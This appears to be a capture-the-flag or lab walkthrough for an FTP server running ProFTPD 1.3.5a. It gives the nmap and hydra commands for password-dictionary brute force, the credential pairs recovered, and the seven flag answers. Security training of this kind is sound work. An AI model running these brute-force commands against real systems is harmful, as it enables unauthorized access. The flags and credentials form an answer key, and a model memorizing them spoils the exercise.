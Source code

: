

Here are the summarized steps from the document in bullet points:

**Q1. What is the version of the FTP server?**

- Answer: ProFTPD 1.3.5a
- Command: `nmap -sV 192.235.127.3`

**Q2. Use the username dictionary and password dictionary to check if any of these credentials work on the system. List all found credentials.**

- Answer:
    - sysadmin: 654321
    - rooty: qwerty
    - demo: butterfly
    - auditor: chocolate
    - anon: purple
    - administrator: tweety
    - diag: tigger
- Command: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.235.127.3 -t 4 ftp`

**Q3. Find the password of user “sysadmin” using an nmap script.**

- Answer: 654321
- Commands:
    - Create a user file with "sysadmin": `echo "sysadmin" > users`
    - Run an nmap script for FTP brute force using the user file: `nmap --script ftp-brute --script-args userdb=/root/users -p 21 192.235.127.3`

**Q4. Find seven flags hidden on the server.**

- Answers:
    - Flag1: 260ca9dd8a4577fc00b7bd5810298076
    - Flag2: e529a9cea4a728eb9c5828b13b22844c
    - Flag3: d6a6bc0db10694a2d90e3a69648f3a03
    - Flag4: 098f6bcd4621d373cade4e832627b4f6
    - Flag5: 1bc29b36f623ba82aaf6724fd3b16718
    - Flag6: 21232f297a57a5a743894a0e4a801fc3
    - Flag7: 12a032ce9179c32a6c7ab397b9d871fa

**Solution:**

- Log in to the FTP server with each found user and retrieve the flags.
- Use the `ftp` command to connect to the server and retrieve the flags by logging in with the corresponding credentials.

These steps outline the process of identifying the FTP server version, performing a password dictionary attack, finding the password for the "sysadmin" user, and retrieving seven flags from the FTP server.
